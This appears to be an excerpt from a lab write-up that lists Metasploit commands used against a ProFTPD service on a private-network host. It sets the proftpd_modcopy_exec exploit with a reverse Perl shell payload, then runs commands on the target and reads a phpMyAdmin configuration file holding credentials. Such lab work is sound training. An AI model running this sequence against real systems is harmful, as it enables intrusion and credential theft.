 ## Part 2. Metasploit:

### Target A: ProFTPD

**Commands Used:**

systemctl start postgresql

msfdb init

`msfconsole`

`search` proftpd

`use` `exploit`/unix/ftp/proftpd_modcopy_exec

`show` options

`set` `RHOSTS` 192.168.0.100

`set` `SITEPATH` /var/www/html

`set` `RPORT_FTP` 21

`set` `LHOST` 192.168.0.100

`show` payloads

`set` `PAYLOAD` cmd/unix/reverse_perl

`exploit`

`whoami`

`ls` -l

`shell`

`cat` /var/www/html/phpmyadmin/config.inc.php

`exit`

Screenshot of the results:


![Screenshot 6](images/im6.png)
> Figure 2.0 Starting PostgreSQL server and initializing the Metasploitable Framework Database.

